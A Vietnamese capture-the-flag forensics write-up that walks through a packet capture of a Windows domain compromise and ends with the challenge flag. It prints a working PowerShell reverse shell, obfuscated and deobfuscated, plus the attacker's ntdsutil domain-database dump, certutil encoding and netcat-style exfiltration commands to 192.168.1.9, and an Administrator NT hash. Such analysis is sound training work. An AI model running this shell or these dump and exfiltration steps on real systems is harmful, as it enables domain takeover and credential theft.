# Challenge Keep the Steam Going

## 1. Đầu vào challenge

Đầu vào challenge cung cấp một file `pcap`.



Từ **Protocol Hierarchy**, có thể thấy:

- SMB/SMB2 là các giao thức có nội dung bị mã hóa hoặc khó đọc trực tiếp.
- HTTP có thể quan sát rõ hơn nội dung request/response.

Vì vậy, có thể pivot từ HTTP trước.

Sử dụng filter:

```text
http
```



Ngay ở đầu thấy hai request `GET` đến `/mrs.ps1`, sau đó là nhiều request `POST` tới cùng một path `/wsman`. Đây là traffic **WinRM**.

**WSMan (Web Services Management)** là giao thức nền được WinRM sử dụng để quản lý và thực thi lệnh từ xa trên Windows.



---

## 2. Phân tích PowerShell reverse shell

### 2.1. Trích xuất script PowerShell

Khi mở TCP stream, thấy response của `GET /rev.ps1` là một đoạn PowerShell bị obfuscate.



```powershell
sv ('8mxc'+'p') ([tyPe]("{1}{0}{2}" -f 't.encOdi','tex','nG') ) ;${ClI`E`Nt} = &("{1}{0}{2}"-f 'je','New-Ob','ct') ("{5}{0}{8}{1}{2}{3}{4}{6}{7}" -f'y','m','.Net.So','ckets.T','C','S','PC','lient','ste')(("{0}{1}{2}" -f '192.168','.1','.9'),4443);${sT`Re`Am} = ${C`L`IeNT}.("{0}{2}{1}"-f'Ge','tream','tS').Invoke();[byte[]]${By`T`es} = 0..65535|.('%'){0};while((${i} = ${str`EaM}.("{0}{1}" -f'Re','ad').Invoke(${bY`Tes}, 0, ${by`TEs}."Len`G`TH")) -ne 0){;${d`AtA} = (.("{2}{1}{0}"-f '-Object','w','Ne') -TypeName ("{0}{3}{5}{1}{4}{2}" -f'Syst','ASCI','g','em.Text','IEncodin','.'))."gETSt`R`i`Ng"(${by`TES},0, ${i});${SeN`DBacK} = (.("{0}{1}"-f 'ie','x') ${Da`Ta} 2>&1 | &("{0}{2}{1}"-f'Out-','ing','Str') );${SENdb`AC`k2} = ${s`eNDb`ACK} + "PS " + (.("{1}{0}"-f'd','pw'))."P`ATH" + "> ";${sE`NDBYtE} = ( ( vaRIaBle ('8MXC'+'P') -ValUe )::"ASC`Ii").("{2}{1}{0}"-f'es','tByt','Ge').Invoke(${SENdB`AC`K2});${sT`REAM}.("{0}{1}" -f'Writ','e').Invoke(${S`e`NdbY`Te},0,${SE`NDbyTe}."lENG`TH");${S`TR`eAM}.("{1}{0}" -f 'h','Flus').Invoke()};${clIE`Nt}.("{0}{1}"-f 'Cl','ose').Invoke()
```

### 2.2. Deobfuscate script

Sau khi deobfuscate, thu được:

```powershell
$8mxcp = [System.Text.Encoding]::ASCII
$Client = New-Object System.Net.Sockets.TCPClient('192.168.1.9', 4443)
$Stream = $Client.GetStream()
[byte[]]$Bytes = 0..65535 | % {0}

while (($i = $Stream.Read($Bytes, 0, $Bytes.Length)) -ne 0) {
    $Data = (New-Object System.Text.ASCIIEncoding).GetString($Bytes, 0, $i)
    $SendBack = (iex $Data 2>&1 | Out-String)
    $SendBack2 = $SendBack + "PS " + (pwd).Path + "> "
    $SendByte = $8mxcp.GetBytes($SendBack2)
    $Stream.Write($SendByte, 0, $SendByte.Length)
    $Stream.Flush()
}

$Client.Close()
```

### 2.3. Phân tích script

Đoạn script trên thực chất là một **reverse shell viết bằng PowerShell**.

- Biến `$8mxcp` được gán bằng `[System.Text.Encoding]::ASCII` để chuyển dữ liệu dạng chuỗi sang byte trước khi gửi qua network.
- Script tạo một TCP client kết nối từ máy nạn nhân tới `192.168.1.9` qua port `4443`.
- Sau khi kết nối thành công, script lấy network stream bằng `$Client.GetStream()` và tạo một buffer byte lớn để nhận dữ liệu từ attacker.
- Trong vòng lặp `while`, chương trình liên tục đọc dữ liệu từ server điều khiển.
- Dữ liệu nhận được được chuyển từ byte sang chuỗi ASCII, sau đó thực thi trực tiếp bằng `iex` (`Invoke-Expression`).
- Kết quả thực thi, bao gồm cả output lỗi `2>&1`, được chuyển thành chuỗi bằng `Out-String`.
- Script nối thêm prompt PowerShell hiện tại theo dạng `PS <đường_dẫn_hiện_tại> >`, encode lại thành byte ASCII rồi gửi ngược về attacker qua TCP stream.

Như vậy, attacker tại `192.168.1.9:4443` có thể:

- Gửi lệnh PowerShell tới máy nạn nhân.
- Thực thi lệnh trên máy nạn nhân.
- Nhận kết quả trả về qua cùng kết nối TCP.

Sử dụng filter:

```text
tcp.port == 4443
```

---

## 3. Phân tích hoạt động của attacker qua reverse shell

Rồi vào TCP stream để xem nội dung giữa attacker và máy nạn nhân qua reverse shell.



Từ đây thấy được attacker đã điều khiển được máy nạn nhân thông qua reverse shell.

### 3.1. Xác định user và máy nạn nhân

Đầu tiên, attacker chạy:

```text
whoami;hostname
```

để kiểm tra user hiện tại và tên máy.

Kết quả trả về:

- User: `corp\asmith`
- Hostname: `corp-dc`

Điều này cho thấy máy bị điều khiển là **Domain Controller**.

### 3.2. Dump Active Directory database

Sau đó, attacker sử dụng `ntdsutil` với chế độ IFM để tạo bản sao offline của Active Directory database vào thư mục `C:\temp`.

Lệnh được sử dụng:

```text
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

Kết quả tạo ra các file quan trọng gồm:

- `ntds.dit`: chứa dữ liệu tài khoản domain.
- `SYSTEM` registry hive: cần thiết để giải mã các hash trong `ntds.dit`.

### 3.3. Chuẩn bị dữ liệu để exfiltrate

Tiếp theo, attacker tải công cụ `n.exe` từ máy `192.168.1.9` về:

```text
C:\Users\Public\Music\n.exe
```

Sau đó, attacker dùng `certutil` để encode hai file vừa dump sang Base64:

```text
certutil -encode "C:\temp\Active Directory\ntds.dit" "C:\temp\ntds.b64"
certutil -encode "C:\temp\REGISTRY\SYSTEM" "C:\temp\system.b64"
```

Cuối cùng, attacker dùng `n.exe` để gửi nội dung hai file Base64 về máy attacker `192.168.1.9` qua port `8080`:

```text
cat C:\temp\ntds.b64 | C:\Users\Public\Music\n.exe 192.168.1.9 8080
cat C:\temp\system.b64 | C:\Users\Public\Music\n.exe 192.168.1.9 8080
```

Như vậy:

- TCP stream port `4443` chỉ cho thấy các lệnh attacker đã thực thi qua reverse shell.
- Dữ liệu Base64 thực tế không nằm trong stream `4443` mà được gửi qua các kết nối TCP tới `192.168.1.9:8080`.

Vì vậy, bước tiếp theo là sử dụng filter:

```text
tcp.port == 8080
```

để tìm và trích xuất hai luồng dữ liệu exfiltration này.

---

## 4. Khôi phục `SYSTEM` và `ntds.dit` từ traffic

### 4.1. Xác định các TCP stream exfiltration

Từ filter này thấy được:





- Destination port luôn là `8080`.
- Chỉ có hai source port là `49773` và `49748`.

Save nội dung TCP stream của hai source port này lại, đồng thời mapping từng stream với loại file tương ứng. Trong đó, có thể xác định stream nào là `SYSTEM` hive bằng cách nhìn phần đầu Base64.



`SYSTEM` hive là Windows Registry hive nên file này có magic header là chuỗi ASCII:

```text
regf
```

Khi chuyển `regf` sang Base64, thu được:

```text
cmVnZg==
```

Do đó, nếu follow TCP stream và thấy phần Base64 bắt đầu bằng `cmVnZj`, có thể xác định stream đó là file `system.b64`.



Mapping hai stream:

```text
49773 -> system.b64
49748 -> ntds.b64
```

### 4.2. Decode Base64 và khôi phục file gốc

Sau khi có hai file, sử dụng OpenSSL để decode Base64:

```bash
openssl base64 -d -in system.b64 -out SYSTEM
openssl base64 -d -in ntds.b64 -out ntds.dit
```



### 4.3. Dump NTLM hash từ Active Directory database

Sau khi decode `SYSTEM` và `ntds.dit`, sử dụng `impacket-secretsdump` để lấy hash từ Active Directory database:

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL > hashes.txt
```

Tool `secretsdump` sẽ:

- Dùng `SYSTEM` hive để lấy bootkey.
- Dùng bootkey để giải mã dữ liệu trong `ntds.dit`.
- Trả về danh sách các tài khoản domain cùng NTLM hash tương ứng.



---

## 5. Decrypt WinRM traffic

### 5.1. Xác định cơ chế mã hóa và thông tin cần thiết

Như đã biết, các traffic `/wsman` ở trên là WinRM traffic và phần nội dung đã bị mã hóa bằng cơ chế **SPNEGO/NTLM**.

Khi tra cứu cách decrypt WinRM traffic trong file `pcap`, có thể thấy nếu WinRM sử dụng NTLM authentication thì có thể dùng:

- Plaintext password của account.
- NT hash của account.

để giải mã message-level encryption.

Do đó, các NTLM hash dump được từ `ntds.dit` không chỉ dùng để crack password mà còn có thể được dùng trực tiếp để decrypt WinRM traffic.



### 5.2. Xác định account dùng để authenticate

Khi check các gói NTLMSSP trong luồng SMB, thấy tài khoản được dùng để xác thực là `administrator`.

Cụ thể, trong packet `NTLMSSP_AUTH`:

- `Account`: `administrator`
- `Domain`: `CORP.local`

Điều này cho thấy WinRM session được authenticate bằng tài khoản Administrator. Vì vậy, để decrypt session này cần dùng đúng NT hash của Administrator:

```text
8bb1f8635e5708eb95aedf142054fc95
```



### 5.3. Decrypt WinRM traffic

Sử dụng tool `winrm_decrypt.py` để decrypt các traffic WinRM `/wsman` đã bị mã hóa.

Tool này nhận vào:

- File `pcap`.
- NT hash của account dùng để authenticate WinRM session.

Command:

```bash
winrm-decrypt -n 8bb1f8635e5708eb95aedf142054fc95 capture.pcap > winrm_decrypted.txt
```

Khi đọc file `winrm_decrypted.txt`, thấy có rất nhiều đoạn được mã hóa bằng Base64.



### 5.4. Decode các chuỗi Base64

Sử dụng mode tự detect các chuỗi Base64 để tự tìm mode decode phù hợp.



Lưu kết quả thành file rồi grep `HTB{`, thấy được flag:

```text
HTB{n0th1ng_1s_tru3_3v3ryth1ng_1s_d3crypt3d}
```



---

## 6. Flag

```text
HTB{n0th1ng_1s_tru3_3v3ryth1ng_1s_d3crypt3d}
```
